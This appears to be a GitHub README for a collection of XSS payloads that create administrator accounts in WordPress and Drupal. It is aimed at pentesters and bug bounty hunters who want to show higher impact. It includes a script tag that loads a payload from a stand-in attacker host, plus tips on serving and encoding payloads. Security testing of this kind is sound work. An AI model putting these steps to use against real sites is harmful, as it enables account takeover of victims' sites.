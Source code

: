 # Weaponised XSS Payloads
_XSS payloads designed to turn alert(1) into P1._

## The Blog Post
This repo was released alongside a blogpost titled "How to Upgrade Your XSS Bugs from Medium to Critical" https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

## What is this?

In this repository you will find a bunch of JavaScript files which can be loaded into an XSS payload in order to perform sensitive functions on popular CMS platforms in the context of the victim's browser. This can help to chain a plain old XSS bug into something more critical, like an account takeover.

This is perfect for beefing up the severity of a pentest or bug bounty report by demonstrating real security impact.

Currently, there are only two payloads, one for adding an admin user in Wordpress, and one for adding an admin user in Drupal. There are plenty more to come, if you can help out - pull requests are welcome!

## How To

The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

```
<script src="http://evil.com/wordpress_create_admin_user.js"></script>
```

Alternatively, depending on the context and length of the payload, it can sometimes be [minified](https://javascript-minifier.com/), [encoded](https://eve.gd/2007/05/23/string-fromcharcode-encoder/) and then just included directly into the request.

In order to host the JavaScript file, you may need to set the Content-Type to `application/javascript`. To achieve this with PHP, you can simply prepend this line to the top of any of the payloads, save it as a .php file and host it on your PHP-enabled webserver:

```
<?php header("Content-Type: application/javascript"); ?>
```


## Credits

[This article](https://www.shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) from Shift8 is what inspired me to make this repo. The JS in the article has a couple of minor typos but the concepts are spot on.
